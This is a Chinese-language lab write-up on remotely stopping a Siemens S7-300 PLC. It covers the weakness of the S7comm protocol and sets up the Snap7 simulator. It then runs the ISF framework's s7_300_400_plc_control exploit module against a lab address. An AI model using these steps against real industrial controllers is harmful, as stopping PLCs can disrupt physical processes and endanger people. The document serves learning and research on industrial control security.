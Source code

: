 # S7-300 启停实验

<p align="center">
    <img src="../../../../assets/img/banner/s7comm.jpg">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**前言**

西门子（SIEMENS）公司的 PLC 产品包括 LOGO、S7-200、S7-1200、S7-300、S7-400、S7-1500 等。

西门子 PLC 在我国的应用比其他系列多。

西门子 S7 系列 PLC 体积小、速度快、标准化，具有网络通信能力，功能更强，可靠性高。S7 系列 PLC 产品可分为微型 PLC（如 S7-200），小规模性能要求的 PLC（如 S7-300）和中、高性能要求的PLC（如S7-400）等。

西门子 PLC 使用私有协议进行通信，它是利用 TPKT 和 ISO8073 的二进制协议。西门子的 PLC 通信端口均为 102 端口,。西门子 PLC 协议有3个版本，S7Comm 协议，早期 S7CommPlus 协议和最新的 S7CommPlus 协议。

S7-200、S7-300、S7-400 系列的 PLC 采用早期的西门子私有协议 S7comm 进行通信。该协议不像 S7CommPlus 的加密协议（S7-1500 等），不涉及任何反重复攻击机制，可以被攻击者轻易利用。S7comm-plus 协议引入了会话 ID 来防止重放攻击。

**实验环境**

`环境仅供参考`

- Microsoft Windows 10 企业版 LTSC - 10.0.17763
- CentOS Linux release 7.7.1908
- VMware® Workstation 15 Pro - 15.0.0 build-10134415

---

## 环境搭建

本次实验用模拟器代替现场设备,先访问软件官网 http://snap7.sourceforge.net/ ,点击 Download 会跳转到 https://sourceforge.net/projects/snap7/files/ ,下载 snap7-full-1.4.2.7z

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/1.png)

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/2.png)

首先S7模拟器客户端连接主机,解压,打开 \rich-demos\x86_64-win64\bin 下 serverdemo.exe

输入本机 IP 点击 start 连接

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/3.png)

然后使用 S7 模拟器客户端,打开 clientdemo.exe 进行连接

输入本机 IP 点击 connect 连接

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/4.png)

此时服务端出现请求信息,表示连接成功

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/5.png)

---

## 漏洞利用

接下来采用开源的工控漏洞利用框架 ISF

工具地址 : https://github.com/dark-lbp/isf

使用 Centos 下载并使用
```bash
yum install -y python
wget https://bootstrap.pypa.io/get-pip.py
python get-pip.py

mkdir -p ~/.pip/
tee ~/.pip/pip.conf <<-'EOF'
[global]
index-url = https://pypi.tuna.tsinghua.edu.cn/simple
[install]
trusted-host = https://pypi.tuna.tsinghua.edu.cn
EOF

git clone https://github.com/dark-lbp/isf.git
cd isf/
pip install -t /usr/lib/python2.7/site-packages -r requirements.txt
python2.7 isf.py
```

kali如下
```bash
wget https://bootstrap.pypa.io/get-pip.py
python2 get-pip.py

mkdir -p ~/.pip/
tee ~/.pip/pip.conf <<-'EOF'
[global]
index-url = https://pypi.tuna.tsinghua.edu.cn/simple
[install]
trusted-host = https://pypi.tuna.tsinghua.edu.cn
EOF

git clone https://github.com/dark-lbp/isf.git
cd isf/
python2 -m pip install -r requirements.txt
python2.7 isf.py
```

实际利用
```
use exploits/plcs/siemens/s7_300_400_plc_control
set target 192.168.141.128
run
```

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/6.png)

这里显示 `stop plc` ,同时查看模拟器中的输出,可以发现已经停止

![](../../../../assets/img/Security/ICS/实验/S7-300启停实验/7.png)

---

## Source & Reference

- [工控安全 | 西门子S7-300攻击分析](https://www.freebuf.com/articles/ics-articles/228770.html)
- [工控安全：S7-1200 PLC远程启停攻击实验](https://www.key1.top/index.php/archives/469/)
